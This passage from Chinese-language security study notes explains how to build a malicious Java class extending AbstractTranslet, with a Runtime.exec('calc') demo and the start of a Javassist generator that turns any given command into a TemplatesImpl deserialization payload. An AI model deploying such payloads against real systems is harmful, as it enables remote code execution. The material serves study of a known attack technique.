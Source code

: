 ```xml
            <artifactId>javassist</artifactId>
            <version>3.27.0-GA</version>
        </dependency>
    </dependencies>
</project>
```

运行程序会在当前项目目录下生成 `out/javassist`

![image-20241104151530154](http://cdn.ayusummer233.top/DailyNotes/202411041515500.png)

---

##### 使用 javassist 生成恶意 class

在如下场景中, 我们的恶意类需要继承`AbstractTranslet`类，并重写两个`transform()`方法。否则编译无法通过，无法生成`.class`文件。

- `AbstractTranslet` 是 Apache Xalan 库中的一个抽象类，Xalan 是一个用于处理 XSLT 转换的库。改类提供了一些基础设施，用于在 XSLT 转换过程中执行特定的操作。
- 在生成恶意类时，重写 `transform()` 方法可以插入恶意代码，使得在调用这些方法时执行攻击者指定的恶意操作。
- 如果不重写这些方法，编译器会认为类没有实现抽象方法，从而导致编译错误，无法生成有效的 `.class` 文件。

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;
 
public class shell extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }
 
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }
 
    public shell() throws IOException {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (Exception var2) {
            var2.printStackTrace();
        }
    }
}
```

但是该恶意类在执行过程中并没有用到重写的方法，所以我们可以直接使用Javassist从字节码层面来生成恶意class，跳过恶意类的编译过程。代码如下。

```java
package javassist;  
  
import java.io.File;  
import java.io.FileOutputStream;  
  
public class EvilPayload {  
  
    public static byte[] getTemplatesImpl(String cmd) {  
        try {  
            ClassPool pool = ClassPool.getDefault();  
            CtClass ctClass = pool.makeClass("Evil");  
            CtClass superClass = pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");  
            ctClass.setSuperclass(superClass);  
            CtConstructor constructor = ctClass.makeClassInitializer();  
```
